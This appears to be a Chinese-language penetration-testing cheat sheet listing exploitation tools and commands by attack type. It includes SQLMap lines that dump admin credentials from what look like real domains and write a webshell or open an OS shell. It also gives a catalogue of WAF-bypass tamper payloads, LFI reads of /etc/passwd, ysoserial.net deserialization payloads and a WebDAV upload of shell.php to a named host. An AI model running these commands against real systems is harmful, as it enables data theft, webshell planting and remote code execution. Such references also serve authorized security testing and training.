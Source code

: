 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

C2服务器
----------------------------------------
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

web代理
----------------------------------------
- burpsuite
	+ 插件收录：https://github.com/Prodject/BurpSuite-collections
	+ Shiro插件：https://github.com/pmiaowu/BurpShiroPassiveScan
	+ J2EE插件：https://github.com/ilmila/J2EEScan
	+ wooyun漏洞插件：https://github.com/boy-hack/wooyun-payload
	+ Struts2-RCE: https://github.com/prakharathreya/Struts2-RCE
	+ Fastjson：https://github.com/Maskhe/FastjsonScan
	+ spring扫描：https://github.com/metaStor/SpringScan
	+ log4j2Scan：https://github.com/whwlsfb/Log4j2Scan
- Yakit
	+ 项目地址：``https://github.com/yaklang/yakit``
	+ Burpsuite 的年轻中国挑战者。

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- SQLMap
	+ 默认选择不询问用户输入
		- ``--batch``
	+ 显示注入详细信息
		- ``-v``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		- ``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		- ``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		- ``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		- ``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		- ``–privileges``
	+ 指定注入技术
		- ``--technique B/T/E/U/S``，分别为布尔注入，时间盲注，报错注入，联合查询注入，堆查询注入
	+ POST注入
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		- ``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		- ``--current-db`` 
	+ 读取与写入文件
		- 前提：首先找需要网站的物理路径，其次需要有可写或可读权限.
		- 读取文件：``sqlmap -u "http:/192.168.3.2/Less-1/?id=1" --file-read "C:/post.txt"``
		- 写入文件：``sqlmap -r "c:\request.txt" –dbms mysql --file-dest "c:\www\webshell.php" --file-write "f:\local.php"``
	+ 执行命令
		- ``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		- ``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
	+ tamper脚本
		::
		
			注：可以同时使用多个脚本，tamper存储在/usr/share/sqlmap/tamper下。
			apostrophemask.py
			适用数据库：ALL
			作用：将引号替换为utf-8，用于过滤单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

			base64encode.py
			适用数据库：ALL
			作用：替换为base64编码
			使用脚本前：tamper("1' AND SLEEP(5)#")
			使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

			multiplespaces.py
			适用数据库：ALL
			作用：围绕sql关键字添加多个空格
			使用脚本前：tamper('1 UNION SELECT foobar')
			使用脚本后：1 UNION SELECT foobar

			space2plus.py
			适用数据库：ALL
			作用：用加号替换空格
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT+id+FROM+users

			nonrecursivereplacement.py
			适用数据库：ALL
			作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
			使用脚本前：tamper('1 UNION SELECT 2--')
			使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

			space2randomblank.py
			适用数据库：ALL
			作用：将空格替换为其他有效字符
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Did%0DFROM%0Ausers

			unionalltounion.py
			适用数据库：ALL
			作用：将union allselect 替换为unionselect
			使用脚本前：tamper('-1 UNION ALL SELECT')
			使用脚本后：-1 UNION SELECT

			securesphere.py
			适用数据库：ALL
			作用：追加特定的字符串
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1 and '0having'='0having'

			space2dash.py
			适用数据库：ALL
			作用：将空格替换为--，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

			space2mssqlblank.py
			适用数据库：Microsoft SQL Server
			测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
			作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Eid%0DFROM%07users

			between.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：用NOT BETWEEN 0 AND #替换>
			使用脚本前：tamper('1 AND A > B--')
			使用脚本后：1 AND A NOT BETWEEN 0 AND B--

			percentage.py
			适用数据库：ASP
			测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
			作用：在每个字符前添加一个%
			使用脚本前：tamper('SELECT FIELD FROM TABLE')
			使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

			sp_password.py
			适用数据库：MSSQL
			作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
			使用脚本前：tamper('1 AND 9227=9227-- ')
			使用脚本后：1 AND 9227=9227-- sp_password

			charencode.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

			randomcase.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：随机大小写
			使用脚本前：tamper('INSERT')
			使用脚本后：INseRt

			charunicodeencode.py
			适用数据库：ASP、ASP.NET
			测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
			作用：适用字符串的unicode编码
			使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
			使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

			space2comment.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将空格替换为/**/
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT/**/id/**/FROM/**/users

			equaltolike.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
			作用：将=替换为LIKE
			使用脚本前：tamper('SELECT * FROM users WHERE id=1')
			使用脚本后：SELECT * FROM users WHERE id LIKE 1

			equaltolike.py
			测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将>替换为GREATEST，绕过对>的过滤
			使用脚本前：tamper('1 AND A > B')
			使用脚本后：1 AND GREATEST(A,B+1)=A

			ifnull2ifisnull.py
			适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
			测试通过数据库：MySQL 5.0 and 5.5
			作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
			使用脚本前：tamper('IFNULL(1, 2)')
			使用脚本后：IF(ISNULL(1),2,1)

			modsecurityversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：过滤空格，使用mysql内联注释的方式进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!30874AND 2>1*/--

			space2mysqlblank.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.1
			作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Bid%0DFROM%0Cusers

			modsecurityzeroversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：使用内联注释方式（/*!00000*/）进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!00000AND 2>1*/--

			space2mysqldash.py
			适用数据库：MySQL、MSSQL
			作用：将空格替换为 -- ，并追随一个换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--%0AAND--%0A9227=9227

			bluecoat.py
			适用数据库：Blue Coat SGOS
			测试通过数据库：MySQL 5.1,、SGOS
			作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
			使用脚本前：tamper('SELECT id FROM users where id = 1')
			使用脚本后：SELECT%09id FROM users where id LIKE 1

			versionedkeywords.py
			适用数据库：MySQL
			测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
			作用：注释绕过
			使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
			使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

			halfversionedmorekeywords.py
			适用数据库：MySQL < 5.1
			测试通过数据库：MySQL 4.0.18/5.0.22
			作用：在每个关键字前添加mysql版本注释
			使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
			使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa


			space2morehash.py
			适用数据库：MySQL >= 5.1.13
			测试通过数据库：MySQL 5.1.41
			作用：将空格替换为#，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

			apostrophenullencode.py
			适用数据库：ALL
			作用：用非法双字节Unicode字符替换单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %00%271%00%27=%00%271

			appendnullbyte.py
			适用数据库：ALL
			作用：在有效载荷的结束位置加载null字节字符编码
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1%00

			chardoubleencode.py
			适用数据库：ALL
			作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

			unmagicquotes.py
			适用数据库：ALL
			作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
			使用脚本前：tamper("1' AND 1=1")
			使用脚本后：1%bf%27 AND 1=1--

			randomcomments.py
			适用数据库：ALL
			作用：用注释符分割sql关键字
			使用脚本前：tamper('INSERT')
			使用脚本后：I/**/N/**/SERT

- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
+ php序列化
	- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
+ java序列化工具
	- Ysomap
		+ 地址：``https://github.com/wh1t3p1g/ysomap``
		+ 帮助：``https://github.com/wh1t3p1g/ysomap/wiki/YSOMAP%E9%A3%9F%E7%94%A8%E6%8C%87%E5%8C%97``
	- java ysoserial：``https://github.com/frohoff/ysoserial``
	- JRE8u20 RCE Gadget：``https://github.com/pwntester/JRE8u20_RCE_Gadget``
	- Java Serialization Dumper：``https://github.com/NickstaDB/SerializationDumper``
	- gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications
+ c# .net序列化工具
	- `.net ysoserial <https://github.com/pwntester/ysoserial.net>`_
		::
		
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
			./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
			./ysoserial.exe -g ClaimsPrincipal -f BinaryFormatter -c foobar -bgc ActivitySurrogateDisableTypeCheck --minify --ust

中间人攻击
----------------------------------------
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``